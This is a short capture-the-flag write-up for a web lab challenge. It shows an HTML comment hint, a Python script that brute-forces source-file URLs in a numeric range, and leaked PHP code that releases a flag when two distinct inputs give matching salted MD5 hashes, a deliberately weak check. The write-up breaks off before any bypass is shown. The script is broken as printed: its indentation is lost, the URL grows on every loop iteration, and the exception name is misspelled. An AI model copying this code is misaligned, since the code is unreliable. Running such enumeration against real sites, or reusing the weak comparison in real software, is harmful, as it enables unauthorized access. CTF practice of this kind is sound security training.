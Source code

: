 ```yaml
---
layout: post
title: "conCmarks"
date: 2025-07-21
categories: [Web]
---
```


Brief `it might be useful to find a mark ` 

- to find the mark 
- goals get the flag 

site = ``http://wcamxwl32pue3e6mekgvd1gf9zrqqyz8l9o8u93w-web.cybertalentslabs.com/``
## Recon 

- site says `look around you there might be something`

```html
<!--FILE=> sourceXXXX -->
<!--XXXX are numbers > 7000 & < 9000 --> 

header=R3v3r53Fuck

```


writing sol.py for it 
- gave us this 
- `http://wcamxwl32pue3e6mekgvd1gf9zrqqyz8l9o8u93w-web.cybertalentslabs.com/source8020`

```python 
import requests
import colorama
from colorama import Fore

  
def brute_source():
colorama.init()
url = input(Fore.GREEN + "url: ")
for i in range(7000, 9000):
url = f"{url}{i}"
try:
response = requests.get(url)
if response.status_code == 200:
print(f"found valid source at: {url}" + Fore.GREEN)
else:
print(f"NOt found: {i}" + Fore.RED)
except requests.RequestsException as e:
print(f"error accessing {url}: {e}")

if __name__ == "__main__":
brute_source()
``` 


and curl the site  

```php 
include('flag.php');	


if( @$_GET['n1'] && @$_GET['n2'] )
{
	$input1 = $_GET['n1'];
	$input2 = $_GET['n2'];
	if( $input1 !== $input2 && @hash("md5", $salt.$input1) === @hash("md5", $salt. $input2) )
	{
		echo $flag;

	} else {

		echo "Sorry this value not valid.";
	}
} else{
	exit();
}


```
